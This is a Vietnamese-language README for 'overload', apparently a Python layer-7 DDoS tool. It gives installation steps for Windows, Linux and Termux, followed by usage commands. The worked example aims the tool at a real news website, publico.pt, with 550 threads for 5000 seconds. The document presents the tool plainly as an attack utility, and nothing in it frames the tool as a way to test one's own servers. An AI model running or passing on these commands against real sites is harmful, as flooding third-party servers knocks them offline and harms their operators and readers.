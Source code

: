 <h1 align="center">📡 Công cụ DDOS (Lớp 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Cửa sổ chính
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Cài đặt


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Cài đặt Python 3.8 [tại đây](https://www.python.org/downloads/release/python-38)
  - Mở trình cài đặt và nhấp vào: `add python to PATH`
  - Tải xuống quá tải <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">tại đây</a>
  - Mở cmd hoặc PowerShell trong thư mục quá tải
  - Chạy lệnh này: `pip install -r requirements.txt`  

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ Cách sử dụng
Lệnh cơ bản để chạy quá tải như sau.  

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Thí dụ: 

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```

